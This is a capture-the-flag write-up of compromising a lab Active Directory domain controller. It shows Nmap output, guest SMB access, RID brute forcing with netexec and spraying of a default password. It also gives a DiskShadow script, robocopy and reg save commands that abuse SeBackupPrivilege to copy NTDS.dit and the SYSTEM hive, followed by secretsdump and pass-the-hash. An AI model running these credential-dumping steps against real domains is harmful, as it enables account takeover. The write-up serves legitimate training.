This box is rated easy difficulty on THM. It involves using Guest authentication to discover a default password on an SMB share, finding more passwords through share enumeration, and utilizing the SeBackupPrivilege to dump NTDS.dit and grab the administrator's hash.

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns no results.

```
$ sudo nmap -sCV 10.129.231.149 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-28 17:47 CST
Nmap scan report for 10.129.231.149
Host is up (0.057s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-01 06:47:54Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-01T06:49:17+00:00; +7h00m07s from scanner time.
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: 2026-03-01T06:49:16+00:00; +7h00m06s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: 2026-03-01T06:49:17+00:00; +7h00m07s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: 2026-03-01T06:49:16+00:00; +7h00m06s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m06s, deviation: 0s, median: 7h00m05s
| smb2-time: 
|   date: 2026-03-01T06:48:37
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.78 seconds
```

Looks like a Windows machine with Active Directory components installed on it. LDAP is leaking the domain name which I'll add to my `/etc/hosts` file and also shows we're dealing with a domain controller. As there are a lot of services to play around with, I'll start with the easy stuff such as SMB, LDAP, and Kerberos.

## Passwords over SMB
Using Netexec shows that Guest authentication is enabled over SMB and that we have read permissions to non-standard share named HR. There is a Dev share that we may want to access later so I keep that in mind.



I connect to it using SMBclient to find a text document containing a message to new hires denoting a default password as well as a potential policy in place.



Now that we know a surefire password for newly created accounts, we'll need a list of names to spray against to validate credentials. For this part I'll brute force RIDs over SMB to display a list of users and then use a sed command to extract their account names so we can use it in a dictionary attack.

```
#Saving RID brute force output to file
nxc smb CICADA-DC.cicada.htb -u 'Guest' -p '' --rid-brute > usernames.txt

#Extracting usernames from output
sed -n 's/.*\\\([^[:space:]]*\).*/\1/p' usernames.txt > validnames.txt
```

Let's see if anyone hasn't changed their password from the default using Netexec once again.



We get a hit back for `michael.wrightson`'s account and checking shares shows nothing new, he doesn't have WinRM access either. I was a bit confused as what to do next because there wasn't a way to grab a shell using these credentials, meaning we'd have to pivot elsewhere first. 

As the Guest account couldn't list users without supplying RIDs, I tried it again with Michael's credentials which showed a comment for the user `david.orelious` that had the password in case he forgot it.



## Initial Foothold
Listing shares yet again shows that he has access to read the Dev share which contains a PowerShell script used to backup SMB shares to another drive. Inside are plaintext credentials for another user named `emily.oscars`.



Some quick enumeration on this account shows that we have WinRM access onto the system and can grab a shell with a tool like [Evil-WinRM](https://github.com/Hackplayers/evil-winrm). At this point we can also grab the user flag under her Desktop folder.



## Privilege Escalation
Now that we have a shell on the system it's time to focus on escalating privileges to administrator. Using `whoami /all` to list all account details reveals that both the `SeBackup` and `SeRestore` privileges are enabled.



There's a pretty common way to dump the AD database by cloning the `NTDS.dit` file using the DiskShadow executable. [Here](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) is a great article that goes in-depth on a few ways to exploit this privilege.

Just to explain what we're doing here - Since our account has access to backup and restore certain files with elevated privileges, we can effectively make a clone of the main Active Directory database file (`NTDS.dit`) which contains hashed passwords of the user accounts. Also `DiskShadow.exe` supports scripts through use of `/s`, so we can write a quick one to clone the `C:\` drive to another location that's exposed to the network.

First I create a script that will perform the cloning:

```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% Z:
end backup
```

Make sure you use unix2dos in order for this file to be compatible with Windows. I upload it via Evil-WinRM and then execute DiskShadow specifying the `.dsh` file to be ran.

```
diskshadow /s backup_script.dsh
```



Once that script is officially done, we can utilize another executable our account has access to, which is robocopy. This will allow us to copy files from the `Z:\` drive to the Temp directory in order to download it to our attacking machine.

```
robocopy /b Z:\Windows\ntds . ntds.dit
```



In order for us to decrypt `NTDS.dit`, we'll need the boot key from the `SYSTEM` hive so we can actually extract these hashes. Luckily we can just create a backup of it.

```
reg save hklm\system C:\Temp\system.bak

download system.bak
download ntds.dit
```



Once those are transferred to our local machine, we can use Impacket's [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) script to grab all AD credentials.



Finally, we can either crack that hash to get the plaintext password use perform a pass-the-hash attack to grab a shell as administrator. Grabbing the root flag under their desktop folder completes this box.



That's all y'all, this box was pretty easy but was good practice for basic AD enumeration and showcased a common Windows privesc technique. I hope this was helpful to anyone following along or stuck and happy hacking!
